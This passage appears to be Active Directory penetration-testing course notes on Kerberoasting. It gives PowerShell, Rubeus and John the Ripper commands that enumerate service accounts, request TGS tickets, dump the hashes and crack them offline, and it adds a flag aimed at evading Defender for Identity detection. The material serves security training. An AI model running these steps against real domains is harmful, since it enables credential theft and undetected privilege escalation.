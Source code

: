 

- Offline cracking of service account passwords.
- The Kerberos session ticket (TGS) has a server portion which is encrypted with the password hash of service account. This makes it possible to request a ticket and do offline password attack.
- Because (non-machine) service account passwords are not frequently changed, this has become a very popular attack!

**Find user accounts used as Service accounts**

ActiveDirectory module:
´´´powershell
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
´´´

PowerView:
´´´powershell
Get-DomainUser -SPN
´´´

Use Rubeus to list Kerberoast stats:
´´´powershell
Rubeus.exe kerberoast /stats
´´´

Use Rubeus to request a TGS:
´´´powershell
Rubeus.exe kerberoast /user:svcadmin /simple
´´´

> **To avoid detections based on Encryption Downgrade for Kerberos EType** (used by likes of MDI - 0x17 stands for rc4-hmac)

Look for Kerberoastable accounts that only support RC4_HMAC:
´´´powershell
Rubeus.exe kerberoast /stats /rc4opsec
Rubeus.exe kerberoast /user:svcadmin /simple /rc4opsec
´´´

Kerberoast all possible accounts:
´´´powershell
Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
´´´

Crack ticket using John the Ripper:
´´´powershell
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
´´´

Learning Objective 14

- Using the Kerberoast attack, crack password of a SQL server service account.



# Targeted Kerberoasting - AS-REPs
